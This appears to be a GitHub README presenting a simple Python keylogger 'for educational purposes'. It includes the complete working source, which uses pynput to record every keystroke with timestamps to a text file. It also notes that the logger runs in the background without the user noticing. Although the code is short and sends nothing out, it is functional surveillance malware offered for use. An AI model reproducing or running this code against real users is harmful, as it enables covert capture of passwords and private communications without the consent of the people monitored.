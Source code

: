 # Keylogger

Simple Keylogger software

![](/Images/KeyLog_Image_file.png)


### Description of the Keylogger

A keylogger is used as malicious software used to record all the keystrokes in a user in hopes of using all the information recorded in the "KeyLog.txt"(or named any kind) file, for malicious intent
This keylogger software is made to get a copy of each keystroke of a user. The keystroke format is shown as a ".txt" file formatted as (TIME/DATE:KEYSTROKE).
This software is made for educational purposes only! Use it at your discretion.

*This software won't work in an attack because the computer antivirus already has a signature for this kind of code*


This is the keylogger file and code:
- [Keylogger](https://github.com/Yasha-Santos/Keylogger/blob/main/Keylogger.py)

```
"""
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Author: Yaser Kassem

This is a simple keylogger program, this was made 
for educational purposes only!
hello
This is to show that even small code software have
great power
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
"""

# Before we start writting the code we must import the following tools in order to be able to perform our keylogigng
import pynput
import logging
from pynput.keyboard import Key, Listener

# Here you can add the directory you wish to save your log file 
log_dir = r"C:/Your/Wished/Directory"

# This log file will have all the keystrokes with the time it was typed, in the format as given below (TIME:MESSAGE)
logging.basicConfig(filename= (log_dir + r"/keyLog.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

# In this function it will take each key as a parameter, then this information will
# be logged in the "keyLog.txt"
def on_press(key):
    logging.info(str(key))

# Creating a listener instance and define the on-press method and join it
# with the main program thread
with Listener(on_press=on_press) as listener:
    listener.join()
```
*This code above contains comments on how it works, minimal explanation will be provided*

Basically what this code does is that it saves all the keystrokes of a user in a running environment, meaning that it is not a one-time use only as it uses a thread to maintain its "life", meaning that when this file is executed a user won't notice a difference but in the background, it will be using a single process to capture every possible keystrokes or combination.

This is a small example of what the keylogger will record.
- [Keylog.txt (Example file)](https://github.com/Yasha-Santos/Keylogger/blob/main/KeyLog.txt)

The keylogger can store more information in this file, as long as the user is writing this software will record every single keystroke. The file above is only an example of what the output will look like.
